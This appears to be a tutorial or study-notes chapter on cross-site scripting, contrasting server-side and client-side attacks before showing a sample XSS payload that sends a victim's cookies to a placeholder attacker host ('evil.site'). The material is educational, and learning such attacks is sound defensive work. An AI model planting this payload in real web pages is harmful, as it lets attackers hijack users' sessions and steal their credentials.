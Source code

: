 ## 🔥 Chapter 12: Attacking Users — Cross-Site Scripting (XSS)

---

### 📌 What’s This Section About?

Up until now, we’ve mostly attacked the **server** — using SQLi, path traversal, etc. But this chapter shifts focus.

Now, the target is **other users** of the application.

So instead of sending malicious input to a server and getting unauthorized data or access, we’re going to **trick the application into serving malicious content to another user** — basically weaponizing the application *against its own users*.

And the first (and biggest) type of this attack?

> ✅ **Cross-Site Scripting (XSS)** — the Godfather of client-side attacks.

---

### 🧠 Key Concepts in This Section (with Simplified Explanation)

#### 🧨 1. Server-Side vs. Client-Side Attacks

| Aspect         | Server-Side                      | Client-Side                                             |
| -------------- | -------------------------------- | ------------------------------------------------------- |
| Target         | Application backend              | Application users                                       |
| Example        | SQL Injection, Command Injection | XSS, CSRF, Session Fixation                             |
| Attack Surface | HTTP requests, backend logic     | HTML, JavaScript, Browser interactions                  |
| Objective      | Steal or modify server data      | Hijack sessions, steal credentials, run code in browser |

In earlier chapters:

* You’d exploit a SQLi to dump other users' data directly from the database.
* In this chapter:

  * You plant a malicious **script** into the app.
  * Another **user loads it** in their browser.
  * It executes in their browser **as if they had typed it themselves.**

#### 💀 2. XSS = Turning the Application Against the User

When the app fails to **sanitize or encode user input**, it might reflect raw input back into pages seen by others.

That’s where attackers strike.

You send:

```html
<script>fetch('https://evil.site/steal?cookie='+document.cookie)</script>
```
